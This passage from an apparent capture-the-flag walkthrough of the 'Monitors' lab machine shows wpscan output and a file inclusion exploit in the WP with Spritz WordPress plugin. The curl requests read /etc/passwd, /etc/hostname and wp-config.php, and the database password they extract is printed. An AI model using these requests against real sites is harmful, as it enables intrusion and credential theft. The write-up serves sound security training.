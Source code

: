 
* WordPress version 5.5.1 identified
* User(s) Identified: admin
* *don't know the reason but `Monitor.htb` gives 403 Forbidden and`Monitors.htb` give 200.* 

**wpscan:**
```bash
❯ wpscan -e ap --url http://monitors.htb

... [snip] ...

[i] Plugin(s) Identified:

[+] wp-with-spritz
 | Location: http://monitors.htb/wp-content/plugins/wp-with-spritz/
 | Latest Version: 1.0 (up to date)
 | Last Updated: 2015-08-20T20:15:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: WP with Spritz 1.0 - Unauthenticated File Inclusion
 |     References:
 |      - https://wpscan.com/vulnerability/cdd8b32a-b424-4548-a801-bbacbaad23f8
 |      - https://www.exploit-db.com/exploits/44544/
 |
 | Version: 4.2.4 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://monitors.htb/wp-content/plugins/wp-with-spritz/readme.txt
```

# Foothold

## wp-plugin Spritz LFI

* [wpscan](https://wpscan.com/vulnerability/cdd8b32a-b424-4548-a801-bbacbaad23f8): The WP with Spritz WordPress plugin was affected by an Unauthenticated File Inclusion security vulnerability.
  * ExploitDB - https://www.exploit-db.com/exploits/44544
  * **Proof of Concept** `http://www.example.com/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../../etc/passwd`

```bash
❯ curl -s 'http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/etc/hostname'
monitors
```

Get username and password from `wp-config.php`
```bash
❯ curl -s 'http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/var/www/wordpress/wp-config.php' | grep define | head -n3
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'wpadmin' );
define( 'DB_PASSWORD', 'BestAdministrator@2020!' );
```
